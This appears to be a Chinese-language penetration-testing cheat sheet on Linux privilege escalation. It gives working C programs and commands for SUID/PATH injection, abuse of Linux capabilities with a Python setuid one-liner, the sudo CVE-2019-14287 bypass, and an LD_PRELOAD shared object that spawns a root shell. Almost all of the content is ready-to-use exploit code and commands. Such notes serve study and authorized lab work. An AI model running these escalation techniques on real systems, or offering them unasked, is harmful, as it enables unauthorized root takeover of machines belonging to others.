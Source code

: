 ## SUID/SGID - Environment Variables
>[!重點]
>SUID/SGID + Path Injection 組合技巧
- 利用strings分析SUID/SGID 有使用那些binary
```
strings /usr/local/bin/suid-env
```
- 找到後利用C語言撰寫程式
```c
int main()
{ 
	setuid(0); 
	system("/bin/bash -p"); 
}
```
```
gcc -o service /home/user/tools/suid/service.c
```
- 修改PATH後把C語言的binray放在執行目錄
## capabilities利用
- 搜尋指令
```
/usr/sbin/getcap -r / 2>/dev/null
```
-  比如說python2.6 有capabilities
```
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
## sudo 提權
>[!重點]
>請一定要檢查到sudo
```
sudo -l
```
* CVE-2019-14287
```
sudo -u#-1 /bin/bash
```
- CVE-2019-18634
>sudo version < 1.8.26
https://github.com/saleemrashid/sudo-cve-2019-18634
## LD_PRELOAD
當使用`sudo -l`的時候，上面會出現這一段字
```
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD
```
- 利用C語言撰寫LD_PRELOAD的.so檔案
``` c
#include <stdio.h> 
#include <stdlib.h> 
#include <sys/types.h> 
void _init() 
{ 
	unsetenv("LD_PRELOAD"); 
	setgid(0); 
	setuid(0); 
	system("/bin/bash"); 
}
```
- 編譯C語言檔案
```
gcc -shared -fPIC shell.c -o shell.so
```